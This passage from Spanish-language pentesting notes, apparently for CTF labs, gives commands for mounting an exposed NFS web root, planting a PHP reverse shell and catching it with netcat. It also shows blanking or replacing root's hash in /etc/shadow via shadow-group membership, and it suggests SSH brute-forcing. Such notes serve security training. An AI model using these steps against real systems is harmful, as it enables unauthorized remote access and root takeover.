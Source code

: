 significa que podemos traernos el sistema de archivos de /var/www/html *


creamos una carpeta para montarnos el sistema:

mkdir -p /mnt/nfs_share

montamos el sistema

sudo mount -t nfs 192.168.42.137:/var/www/html /mnt/nfs_share

creamos una reverse shell:

nano /mnt/nfs_share/reverse.php

el contenido es la reverse shell de pentestmonkey

luego nos ponemos en ecucha con el puerto que le asignamos en el reverse.php

nc -lvnp puerto

y en la url:

http://192.168.42.137/reverse.php

-------------------------------------------------------------------------------

## 64.- Cuando no podemos hacer nada, y tenemos el servicio ssh podemos tratar de ingresar por ssh y en el banner nos puede dar una pista, como algún nombre de usuario.

-------------------------------------------------------------------------------

## 65.- Si pertenezco al grupo shadow puedo modificar el /etc/shadow y cambiarle la contraseña al root, entonces lo dejo sin contraseña.

ejecutamos: id
uid=1000(b.taylor) gid=1000(b.taylor) grupos=1000(b.taylor),42(shadow)

eliminamos desde el $ después de los ":" después de la palabra root hasta antes de los ":"

root:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20135:0:99999:7:::


root::20135:0:99999:7:::

ejecutamos su root y no escribimos contraseña

como también podemos crear una contraseña con openssl

openssl passwd password1

copiamos el hash y lo pegamos en el /etc/shadow

## 66.- Cuando tengamos los servicios htttp y ssh y en la web no encontramos nada podemos hacer ataque de fuerza bruta, primero creando una lista de palabras como contraseñas usando palabras de la web, entendiendose que la web es de tipo servicios, portafolio.
